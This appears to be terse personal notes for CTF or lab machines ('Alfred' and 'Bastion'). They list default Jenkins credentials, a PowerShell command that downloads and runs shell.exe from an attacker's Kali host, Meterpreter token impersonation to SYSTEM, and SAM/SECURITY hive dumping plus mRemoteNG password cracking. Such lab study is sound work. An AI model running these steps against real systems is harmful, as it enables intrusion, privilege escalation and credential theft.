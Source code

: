 ## Alfred
```bash
jenkins > admin:admin
projects > build command
nishang
systeminfo
msfconsole listener
msfvenom windows payload

# Grab the file:
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<kali ip>/shell.exe', 'shell.exe')"
python web server etc

# To start the exploit:
Start-Process "shell.exe"

load incognito
getprivs
list-tokens -u

# Lets try to impersonate the aythority\system
impersonate_token "NT AUTHORITY\SYSTEM"
getuid
root
```

> sometimes we have system, but we cant get into shell or use commands
so, we need to migrate to another process that is running as system

```bash
migrate <svchost.exe PID>
```

## Bastion
Mounting VHD Files - https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25

we are gonna to mount the smb, then mount the VHD file. Then we search For the SAM file.
```bash
# C:\WIndows\System32\SAM | SECURITY | SYSTEM

secretdump.py -sam <sam file> -security <security file> -system <system file> LOCAL
```

```bash
- search mRemoteNg -
- search where the passwords are stored -
- grab the passwords
- grab a mRemoteNG decrypt tool from github
- crack the admin password
- root
```

